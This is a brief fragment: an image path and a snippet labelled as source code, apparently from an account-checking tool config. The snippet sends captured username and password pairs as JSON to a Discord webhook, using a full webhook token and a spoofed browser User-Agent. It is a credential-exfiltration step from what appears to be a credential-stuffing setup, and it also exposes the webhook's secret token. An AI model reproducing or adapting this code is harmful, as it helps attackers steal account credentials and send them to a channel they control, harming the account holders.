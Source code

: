 REQUEST POST "https://discordapp.com/api/webhooks/679802785335607490/Vc1rtKOPjzb3iROIvYVXdhO6HfCuAwvOAPgZxXxBTxQGkiULSZYqClJuViOMAN6MvjUG" 
  CONTENT "{"content" : "<USER>:<PASS>"}"
  CONTENTTYPE "application/json" 
  HEADER "User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko" 
  HEADER "Pragma: no-cache" 
  HEADER "Accept: /"

